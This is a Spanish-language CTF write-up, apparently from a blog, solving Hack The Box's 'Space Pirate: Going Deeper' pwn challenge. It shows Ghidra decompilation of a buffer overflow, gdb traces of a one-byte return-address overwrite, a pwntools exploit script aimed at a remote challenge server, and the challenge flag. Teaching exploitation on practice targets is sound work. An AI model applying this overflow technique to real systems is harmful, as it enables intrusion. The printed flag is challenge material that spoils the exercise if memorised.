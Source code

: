 ```yaml
---
layout: post
title: Space Pirate: Going Deeper
comments: true
categories: [Pwn, Writeups, HTB]
---
```


# Overview

Este es un reto sencillo de la plataforma [Hack the Box](https://app.hackthebox.com/challenges/Space%2520pirate%253A%2520Going%2520Deeper), comparte título con otros dos que subiré proximamente. Espero que os sirva para aprender!

![Image]({{ site.baseurl }}/images/posts/HTB-logo.png)

# Reconocimiento

Se nos da un binario con arquitectura `x86_64`, con las siguientes protecciones:

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./glibc/'
    Stripped:   No
```

Con *ghidra* descompilamos para analizar el código fuente:

```c
int main(void){
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Vemos que se llama a una función `admin_panel`, donde apreciamos una vulnerabilidad de tipo *Buffer Overflow*:

```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char input_str [40];
  long input_num;
  
  input_num = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld]. \n[*] If you want to continue, disable the mechanism or login as admin.\n",param_1,param_2,param_3);
  
  while (((input_num != 1 && (input_num != 2)) && (input_num != 3))) {
    printf(&DAT_004014e8);
    input_num = read_num();
  }
  if (input_num == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (input_num != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  
  read(0,input_str,0x39);   //Vulnerable a Buffer Overflow (40 <- 57)

  if (((param_1 == 0xdeadbeef) && (param_2 == 0x1337c0de)) && (param_3 == 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",input_str,0x34);
    if (iVar1 != 0) {
      printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
      system("cat flag*");
      goto LAB_00400b38;
    }
  }
  printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```

Con esto, podemos tratar de buscar el offset hasta el *RIP*, para saltarnos la verificación y ejecutar directamente la línea que imprime la flag.

Ejecutamos con *gdb-peda*:

```bash
[...]
[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 2

[*] Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Sin embargo, no parece que estemos sobrescribiendo *RIP*, ni *RBP*:

```bash
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b41
```

Vamos a probar con otra letra:

```bash
[...]
[*] Username: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

Y vemos que *RIP* varía un byte:

```bash
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffdbc0 --> 0x400ba0 (<__libc_csu_init>:	push   r15)
RIP: 0x400b42
```

Por lo que tenemos un **overflow de un sólo byte**, que es más que suficiente como para llegar a donde queremos (`0x400b01`):

![Image]({{ site.baseurl }}/images/posts/2024-11-06-Space-Pirate-Going-Deeper-HTB.png)

# Explotación

Para resolver el reto sólo nos faltaría mandar una cadena de `\x01` lo suficientemente larga, para ello lo haremos mediante un script en *python* utilizando la librería *pwntools*:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./sp_going_deeper')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote("94.237.51.112",50014)
    else:
        return process('./sp_going_deeper')

io = start()

io.sendlineafter(">>", b"1")

payload = 57 * b'\x01'

io.sendlineafter("Input:", payload)

io.interactive()
```

Lo ejecutamos en remoto y tenemos la flag!

```bash
[+] Welcome admin! The secret message is: HTB{d1g_1n51d3..u_Cry_cry_cry}
```